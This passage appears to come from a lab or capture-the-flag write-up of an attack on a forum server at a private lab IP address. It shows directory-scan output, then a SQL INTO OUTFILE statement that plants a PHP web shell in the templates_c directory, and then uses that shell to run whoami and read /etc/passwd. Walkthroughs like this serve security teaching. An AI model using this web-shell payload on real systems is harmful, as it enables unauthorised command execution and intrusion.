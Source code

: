 ```
---- Entering directory: https://192.168.193.128/forum/templates_c/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: https://192.168.193.128/forum/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: https://192.168.193.128/forum/update/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Tue Apr  8 12:08:18 2025
DOWNLOADED: 4612 - FOUND: 4
```

When we tried to upload files based on the results, we encountered problems except for the "/forum/templates_c/" part

```SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/webshell.php"```

We added a backdoor to our website.

In brief:

- **`<?php system($_GET['cmd']); ?>`**: This PHP code is used to execute commands sent via the `cmd` parameter in the URL on the server. For example, commands can be executed on the server with a request like `http://site.com/webshell.php?cmd=ls`.
- **`into outfile`**: In SQL, this command writes the result of the query to the specified file path.
- **`/var/www/forum/templates_c/webshell.php`**: This is where we will upload the file.

Now let's see what we can find on the server with the backdoor we added.

```
view-source:https://192.168.193.128/forum/templates_c/webshell.php?cmd=whoami

www-data
```



```
view-source:https://192.168.193.128/forum/templates_c/webshell.php?cmd=cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false